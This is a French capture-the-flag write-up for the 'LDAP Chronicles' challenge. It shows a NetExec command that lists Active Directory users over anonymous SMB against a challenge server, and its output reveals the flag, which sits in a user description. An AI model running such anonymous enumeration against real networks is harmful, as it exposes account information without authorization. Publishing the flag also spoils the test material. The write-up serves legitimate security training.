 Trois challenges Intro en Réaliste.

``HF47``

# The LDAP Chronicles 

> Un administrateur a laissé une porte ouverte dans le système de gestion des identités. Explorez les profondeurs du répertoire pour découvrir des informations cachées. Le secret se trouve dans un des attributs des comptes utilisateurs. Saurez-vous le dénicher ?

---

**Note:**
- Ce challenge ne nécessite pas de compte Active Directory
- Les comptes formation et Administrateur et le groupe CTF_Player ne font pas partie du périmètre du challenge. Il est strictement interdit d'essayer de les compromettre.
- Les comptes et/ou groupes spécifiques au challenge sont identifiés par CTF ou indiqués dans l'énoncé. En cas de doute, contactez un administrateur.

Pour générer un token CTFd, nécessaire pour obtenir un compte Active Directory, rendez-vous dans la section Paramètres puis Clé D'accès.

``51.77.110.239`` 


La connexion anonyme fonctionne. On trouve rapidement le premier flag.

```
└─$ nxc smb 51.77.110.239 -u '' -p '' --users
SMB         51.77.110.239   445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.77.110.239   445    DC1              [+] ctfcorp.local\: 
SMB         51.77.110.239   445    DC1              -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         51.77.110.239   445    DC1              Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         51.77.110.239   445    DC1              DefaultAccount                <never>             0       A user account managed by the system. 
SMB         51.77.110.239   445    DC1              hf47                          2025-05-02 14:44:05 0        
SMB         51.77.110.239   445    DC1              helpdesk_operator             2025-05-05 15:50:09 0       Contact: ext-5555 - Helpdesk Level 1 
SMB         51.77.110.239   445    DC1              backup_service                2025-05-05 15:50:09 0       Automated backup service account 
SMB         51.77.110.239   445    DC1              john_doe                      2025-05-05 15:50:09 0       Sales Manager - North Region 
SMB         51.77.110.239   445    DC1              sarah_smith                   2025-05-05 15:50:09 0       404CTF{Ld4P_4n0nym0us_1s_4_B4d_Pr4ct1c3!} 
SMB         51.77.110.239   445    DC1              dev_jenkins                   2025-05-05 15:50:09 0       CI/CD Pipeline Service Account 
SMB         51.77.110.239   445    DC1              print_svc                     2025-05-05 15:50:09 0       Print Spooler Service 
SMB         51.77.110.239   445    DC1              web_admin                     2025-05-05 15:50:09 0       Intranet Administrator 
```
